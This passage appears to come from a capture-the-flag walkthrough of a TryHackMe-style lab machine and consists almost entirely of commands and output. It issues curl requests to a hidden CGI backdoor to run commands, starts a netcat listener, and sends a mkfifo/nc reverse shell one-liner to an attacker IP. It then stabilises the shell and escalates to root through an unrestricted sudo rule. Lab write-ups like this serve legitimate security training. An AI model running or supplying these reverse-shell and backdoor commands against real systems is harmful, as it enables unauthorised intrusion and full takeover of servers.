 `curl -skLX GET 'https://whyhackme.thm:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=id'` 

```bash
<h2>uid=33(www-data) gid=1003(h4ck3d) groups=1003(h4ck3d)
<h2>
```

`curl -skLX GET 'https://whyhackme.thm:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=ls'`

```bash
<h2>5UP3r53Cr37.py
<h2>
```

`nc -nlvp 443`

```bash
listening on [any] 443 ...
```

`curl -k -s 'https://10.10.96.230:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN' --data-urlencode cmd='rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.2.37.37 443 >/tmp/f'`

```bash
connect to [10.2.37.37] from (UNKNOWN) [10.10.96.230] 47648
bash: cannot set terminal process group (825): Inappropriate ioctl for device
bash: no job control in this shell

www-data@ubuntu:/usr/lib/cgi-bin$ whoami
www-data

www-data@ubuntu:/usr/lib/cgi-bin$ id
uid=33(www-data) gid=1003(h4ck3d) groups=1003(h4ck3d)

www-data@ubuntu:/usr/lib/cgi-bin$ pwd
/usr/lib/cgi-bin

www-data@ubuntu:/usr/lib/cgi-bin$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@ubuntu:/usr/lib/cgi-bin$ export TERM=xterm

www-data@ubuntu:/usr/lib/cgi-bin$ 
```

> **Privilege Escalation Phase**
> 

```bash
www-data@ubuntu:/usr/lib/cgi-bin$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: ALL
    
www-data@ubuntu:/usr/lib/cgi-bin$ sudo su -
root@ubuntu:~# whoami
whoami
root
root@ubuntu:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# 

```
